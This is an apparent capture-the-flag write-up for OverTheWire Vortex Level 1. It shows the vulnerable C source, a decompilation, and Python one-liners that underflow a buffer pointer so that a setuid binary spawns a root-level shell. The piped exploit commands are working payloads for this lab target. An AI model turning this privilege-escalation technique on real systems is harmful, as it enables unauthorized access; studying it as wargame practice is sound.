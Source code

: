 Overthewire Vortex Level 1 Writeup

Source code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>


#define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }

void print(unsigned char *buf, int len)
{
        int i;

        printf("[ ");
        for(i=0; i < len; i++) printf("%x ", buf[i]);
        printf(" ]\n");
}

int main()
{
        unsigned char buf[512];
        unsigned char *ptr = buf + (sizeof(buf)/2);
        unsigned int x;

        while((x = getchar()) != EOF) {
                switch(x) {
                        case '\n': print(buf, sizeof(buf)); continue; break;
                        case '\\': ptr--; break;
                        default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
                }
        }
        printf("All done\n");
}
```

First check the stack layout. From the decompiled version:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __uid_t v3; // esi@8
  __uid_t v4; // ebx@8
  __uid_t v5; // eax@8
  unsigned int v6; // eax@10
  int result; // eax@12
  int v8; // ecx@12
  unsigned int v9; // [sp+14h] [bp-214h]@1
  int v10; // [sp+18h] [bp-210h]@11
  int v11; // [sp+1Ch] [bp-20Ch]@5
  int v12; // [sp+11Ch] [bp-10Ch]@1
  int v13; // [sp+21Ch] [bp-Ch]@1

  v13 = *MK_FP(__GS__, 20);
  v9 = (unsigned int)&v12;
  while ( 1 )
  {
    v10 = getchar();
    if ( v10 == -1 )
      break;
    if ( v10 == 10 )
    {
      print((int)&v11, 512);
    }
    else if ( v10 == 92 )
    {
      --v9;
    }
    else
    {
      if ( (v9 & 0xFF000000) == -905969664 )
      {
        v3 = geteuid();
        v4 = geteuid();
        v5 = geteuid();
        setresuid(v5, v4, v3);
        execlp("/bin/sh", "sh", 0);
      }
      if ( v9 <= (unsigned int)&v13 )
      {
        v6 = v9++;
        *(_BYTE *)v6 = v10;
      }
    }
  }
  puts("All done");
  result = 0;
  v8 = *MK_FP(__GS__, 20) ^ v13;
  return result;
}
```

Clearly `v9` is `ptr`, `v11` is `buf`. Newbie of programming language may feel confused of seeing `ptr++[0] = x;`. This means increase `ptr` then give `x` to the address which `ptr` points to(looks non-intuitive, since operator `++` stands after `ptr`).

There are 4 ways of handling EOF of bash. But I think the most simple way is below(since you don't need to hardcode bash command to your payload, it provides more flexibility):

```
$ (python -c 'print "\\"*261+"\xca"*4000';cat) | /vortex/vortex1
```

First use 261 `\` to decrease `ptr`. When vortex1 reads `\xca`, it adds 1 to `ptr` and writes the value to address `buf-0x4`. We need extra `\xca`s because of the mechanism of kernel by handling buffered input. Characters more than a page size(normally 4096 bytes) can force the circular buffer inside kernel to be flushed. You can also force it manually:

```
$ (python -c 'import sys ; print "\\" * 261 +"\xcaA\n";sys.stdout.flush();';cat) |/vortex/vortex1
```

